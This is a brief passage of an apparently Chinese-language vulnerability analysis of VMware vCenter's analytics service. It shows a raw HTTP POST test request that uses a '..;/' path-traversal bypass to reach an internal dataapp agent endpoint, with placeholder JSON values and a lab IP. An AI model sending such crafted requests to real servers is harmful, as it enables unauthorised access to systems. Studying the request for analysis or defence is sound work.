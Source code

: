 [![](assets/1704161823-beba1067f84f3b8ca11331f3117017bd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221011122407-8bcb5888-491c-1.png)  
[![](assets/1704161823-8f8dd3ff0dd23d67fb88136fe9567dc2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221011122407-8c322ed2-491c-1.png)  
构造数据包发送测试

```bash
POST /analytics/ceip/sdk/..;/..;/..;/analytics/ph/api/dataapp/agent?action=collect&_c=vSphere.vapi.6_7&_i=9D36C850-1612-4EC4-B8DD-50BA239A25BB  HTTP/1.1
Host: 192.168.111.11
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
X-Deployment-Secret: test
Content-Length: 64
{"manifestContent": "a1", "contextData": "a2", "objectId": "a3"}
```
